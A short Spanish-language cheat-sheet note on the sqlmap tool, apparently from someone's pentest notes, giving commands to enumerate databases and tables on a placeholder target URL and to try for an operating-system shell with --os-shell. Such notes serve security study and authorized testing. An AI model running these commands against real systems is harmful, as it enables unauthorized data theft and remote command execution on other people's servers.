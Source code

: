 - Tags: #reconocimiento #herramienta #scanner #web 
---

Esta herramienta sirve para automatizar ataques de sql y para enumerar estas bases de datos

- uso basico y ruidosos

```bash
sqlmap -u <url-objetivo> --dbs --batch --forms
```

- el siguiente paso ya que enumeramos las bases de datos sera enumerar las tablas de la base de datos objetivo
```bash
sqlmap -u <url-objetivo> -D <base de datos> --tables --batch --forms
```

- Si la base de datos es vulnerable a sql injection podremos porvar a ver si nos retorna una shell directamente con el comando 
```bash
sqlmap -u <url-objetivo> --os-shell
```

explicación esto ocurre por que si --is-dba retorna true podemos copiar archivos 